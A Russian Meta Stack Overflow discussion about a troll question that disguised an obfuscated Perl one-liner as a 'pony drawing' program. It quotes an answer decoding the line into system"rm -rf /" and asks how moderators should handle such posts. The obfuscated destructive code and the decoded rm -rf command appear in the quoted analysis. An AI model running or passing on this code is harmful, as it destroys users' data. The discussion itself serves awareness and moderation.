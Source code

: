```yaml
---
title: "Post 10560"
se.owner.user_id: 337540
se.owner.display_name: "Victor VosMottor thanks Monica"
se.owner.link: "https://ru.meta.stackoverflow.com/users/337540/victor-vosmottor-thanks-monica"
se.link: "https://ru.meta.stackoverflow.com/q/10560"
se.post_id: 10560
se.post_type: question
se.score: 41
---
```

<h3>Вступление.</h3>
<p>Делая вчера очередь проверок, я наткнулся на вопрос заданный только вчера, содержащий код, но заминусованный капитально: -14 (на текущий момент -16). Думаю, что-то это слишком много, ну если обычно задают плохой вопрос (е.г. домашку, перевод, по-английски и т.д.), то если он недавний, то число даунвоутов где-то ∈ range(-2, -7). Я открыл вопрос и смотрю комментарии и ответ...</p>
<h3>Продолжение</h3>
<blockquote>
предлагаю удалить текст вопроса. – KoVadim 2 дня назад
5
<p>Я голосую за закрытие этого вопроса, потому что вопрос содержит вредоносный код в завуалированном виде. – aleksandr barakin 2 дня назад</p>
<p>Я просто хочу вывести красивого пони в терминале. Ничего вредоносного – Сергей Валерьевич 2 дня назад</p>
<p>пони выводятся по apt moo – KoVadim 2 дня назад</p>
<p>@aleksandrbarakin, может просто в ответе разобрать почему код вредоносный? :-) – Grundy 2 дня назад</p>
<p>внизу уже разобрали – KoVadim 2 дня назад</p>
<p>@KoVadim, я где-то видел именно по пунктам разбор, типа как эта строка преобразуется в аналог rm rf :) – Grundy 2 дня назад</p>
<p>что то модераторы не идут – KoVadim 2 дня назад</p>
<p>кстати, ассоциация: stackoverflow.com/q/9591658/2881286 – Grundy 2 дня назад
2</p>
<p>@Grundy, добавил разбор. – Centrix 2 дня назад
3</p>
<p>@aleksandrbarakin хоть это и троллинг, но вопрос правил не нарушает сам по себе. А хороший ответ только приветствуется.</p>
</blockquote>
<p>Разбор в ответе:</p>
<blockquote>
+9
<p>Эта программа удаляет все директории, в том числе и корневую /.</p>
<p>А если подробнее то:</p>
<p><code>echo &quot;test... test... test...&quot;</code> выполнение этой команды не влияет на работу и добавлено, скорее всего, для усыпления бдительности. То, что происходит в остальном коде — совсем не очевидно из-за преднамеренно запутанного написания. В данной строчке записано всего три последовательно выполняемых команды. Запишем команду следующим образом:</p>
<pre><code>$? ? s:;s:s;;$?: : s;;=]=&gt;%-{&lt;-|}&lt;&amp;|`{; ;
y; -/:-@[-`{-};`-{/&quot; -; ;
s;;$_;see
</code></pre>
<p>Первая конструкция анализирует переменную <code>$?</code> — код возврата предыдущей команды. Так как перед выполнением этой конструкции дочерних процессов не создавалось, $? будет содержать 0, и выполнена будет вторая «ветка» — <code>s;;=]=&gt;%-{&lt;-|}&lt;&amp;|</code>{;<code>. Эта команда, в свою очередь, заменяет строку в переменной-аккумуляторе </code>$_<code>на</code>=]=&gt;%-{&lt;-|}&lt;&amp;|{` (первый символ после s устанавливает ограничитель параметров этого оператора, и хотя традиционно используются слэш / или |, для неясности в этой конструкции используется ограничитель ;).</p>
<p>Вторая команда транслирует содержимое «аккумулятора» по достаточно сложным правилам. В левой части указано четыре диапазона символов, в правой — один. Если раскрыть эти диапазоны, получим следующее соответствие:</p>
<pre><code> !&quot;#$%&amp;'()*+,-./:;&lt;=&gt;?@[\]^_`{|}
`abcdefghijklmnopqrstuvwxyz{/&quot;
</code></pre>
<ul>
<li></li>
</ul>
<p>В результате содержимое $_ принимает вид:</p>
<pre><code>system&quot;rm -rf /&quot;
</code></pre>
<p>Третья же команда дважды (как инструктирует флаг ee) «вычисляет» содержимое аккумулятора — вышеуказанную деструктивную команду — и пытается заменить пустую строку в аккумуляторе на результат вычисления.</p>
</blockquote>
Comments:
<blockquote>
<p>Это неправда. Она должна рисовать красивого пони – Сергей Валерьевич 23 июн в 14:42</p>
<p>Знаем мы ваших пони. – Centrix 23 июн в 14:43
11</p>
<p>Ты троянская пони, троянская пони! ✨🌙 – andreymal 23 июн в 15:05</p>
</blockquote>
<a href="https://ru.stackoverflow.com/questions/1144804/%d0%a7%d1%82%d0%be-%d0%b4%d0%b5%d0%bb%d0%b0%d0%b5%d1%82-%d0%b4%d0%b0%d0%bd%d0%bd%d1%8b%d0%b9-%d0%be%d0%b4%d0%bd%d0%be%d1%81%d1%82%d1%80%d0%be%d1%87%d0%bd%d0%b8%d0%ba-%d0%bd%d0%b0-perl">Link to question</a>
<hr>
<h1>Что я хочу обсудить.</h1>
<p>Такие вопросы к счастью редки. Но они несут очень большую опасность. Любой не знающий перл или невнимательный человек мог запустить этот код и...  <code>sudo rm -rf /</code></p>
<p>Я считал, что наше SOобщество полностью защищено от троллей, но вот это — наша брешь. В правилах такие вопросы не оговариваюстя. Я предлагаю обсудить это в комментариях, и в качестве ответов предложить решение этой проблемы — что делать с такими вопросами? Предупреждения в самом вопросе — мало!</p>
<p><strong>P.S.</strong> За название — спасибо @andreymal'y!</p>
